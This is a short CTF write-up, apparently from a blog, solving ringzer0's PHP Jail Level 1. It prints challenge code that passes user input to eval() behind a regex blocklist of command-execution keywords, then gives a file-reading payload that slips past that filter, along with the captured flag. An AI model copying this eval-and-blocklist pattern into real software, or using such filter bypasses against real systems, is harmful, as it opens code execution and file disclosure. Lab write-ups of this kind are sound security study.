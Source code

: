 Title: ringzer0 CTF - Jail Escaping PHP
Author: Victor Dorneanu
Date: 2016-06-20
Tags: ringzer0, ctf, wargames, php 
Category: blog

Here are my solutions for the [ringzer0](https://ringzer0team.com) **Jail Escaping** PHP challenges.

# Level 1

```.php
RingZer0 Team Online CTF

PHP Jail Level 1:
Current user is uid=1000(level1) gid=1000(level1) groups=1000(level1)

Flag is located at /home/level1/flag.txt

Challenge PHP code:
-----------------------------

<?php
array_shift($_SERVER['argv']);
$var = implode(" ", $_SERVER['argv']);

if($var == null) die("PHP Jail need an argument\n");

function filter($var) {
        if(preg_match('/(`|open|exec|pass|system|\$|\/)/i', $var)) {
                return false;
        }
        return true;
}
if(filter($var)) {
        eval($var);
        echo "Command executed";
} else {
        echo "Restricted characters has been used";
}
echo "\n";
?>

-----------------------------
Your input:
```

Pretty simple:

```.shell
Your input:
echo(file_get_contents('flag.txt'));
FLAG-sW66QEY4y6724723c7w1i0oMt179E75y
```
